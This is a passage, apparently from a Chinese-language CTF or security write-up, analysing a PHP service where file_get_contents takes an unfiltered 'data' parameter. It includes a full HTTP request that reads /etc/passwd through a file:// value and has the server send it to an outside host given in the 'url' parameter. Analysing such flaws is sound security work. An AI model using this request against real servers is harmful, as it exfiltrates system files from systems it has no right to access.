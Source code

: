 ```php
    return $part;
}
```

其中的 `file_get_contents` 函数没做任何参数过滤，参数正好是我们传入的 `data` 参数值，因此这里存在一个任意文件包含。

至此大致逻辑梳理完毕，服务器最终会通过对我们传入的 `data` 参数做一些处理，然后带着 `data` 参数访问 `url` 指定的地址。

我们尝试利用该逻辑 + 文件包含漏洞带出 /etc/passwd：

```http
POST /?url=http://**.**.**.**:9000/&data[x]=@file:///etc/passwd HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3590.962 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![passwd](img/passwd.png)
